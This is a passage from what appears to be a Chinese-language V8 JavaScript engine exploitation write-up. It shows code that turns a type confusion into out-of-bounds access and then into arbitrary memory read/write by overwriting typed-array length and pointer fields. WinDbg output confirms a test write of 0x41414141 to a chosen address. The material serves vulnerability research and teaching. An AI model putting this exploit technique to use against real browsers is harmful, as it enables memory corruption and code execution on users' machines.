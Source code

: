 ```

    oob_array[uint64_length_offset] = i2f(BigInt(sc.length));
    oob_array[uint64_baseptr_offset] = i2f(0n);
    oob_array[uint64_externalptr_offset] = i2f(addr);
    console.log("test!!!" + "uint64_externalptr_offset:" + hex(f2i(oob_array[uint64_externalptr_offset])));
    for(let i = 0; i < sc.length; i+=1) {
        %SystemBreak();
        uint64_arw[i] = sc[i];
        %SystemBreak();
    }

    oob_array[uint64_length_offset] = uint64_length;
    oob_array[uint64_baseptr_offset] = uint64_baseptr_ptr;
    oob_array[uint64_externalptr_offset] = uint64_externalptr_ptr;
}

confusion_to_oob();
get_arw();


```

随便写了个地址和数值来测试效果，断下来看看有没有成功：

```
[+] convert confusion to oob......
        oob_array.length: 0xc00c
[+] get absolute read/write access......
        uint64_length_offset: 0x2
        uint64_externalptr_offset: 0x3dc00000007
        uint64_baseptr_offset: 0x8087cd5
test!!!uint64_externalptr_offset:0x3dc0808888f

0:000> dd 0x3dc0808888f
000003dc`0808888f  00000000 00000000 00000000 00000000
000003dc`0808889f  00000000 00000000 00000000 00000000
000003dc`080888af  00000000 00000000 00000000 00000000
000003dc`080888bf  00000000 00000000 00000000 00000000
000003dc`080888cf  00000000 00000000 00000000 00000000
000003dc`080888df  00000000 00000000 00000000 00000000
000003dc`080888ef  00000000 00000000 00000000 00000000
000003dc`080888ff  00000000 00000000 00000000 00000000


```

这就是我们要写入的地址，运行起来看值有没有发生改变：

```
0:000> g
(10f8.2a84): Break instruction exception - code 80000003 (first chance)
d8!v8::base::OS::DebugBreak:
00007ff7`e5ae17d0 cc              int     3
0:000> dd 0x3dc0808888f
000003dc`0808888f  41414141 00000000 00000000 00000000
000003dc`0808889f  00000000 00000000 00000000 00000000
000003dc`080888af  00000000 00000000 00000000 00000000
000003dc`080888bf  00000000 00000000 00000000 00000000
000003dc`080888cf  00000000 00000000 00000000 00000000
000003dc`080888df  00000000 00000000 00000000 00000000
000003dc`080888ef  00000000 00000000 00000000 00000000
000003dc`080888ff  00000000 00000000 00000000 00000000


```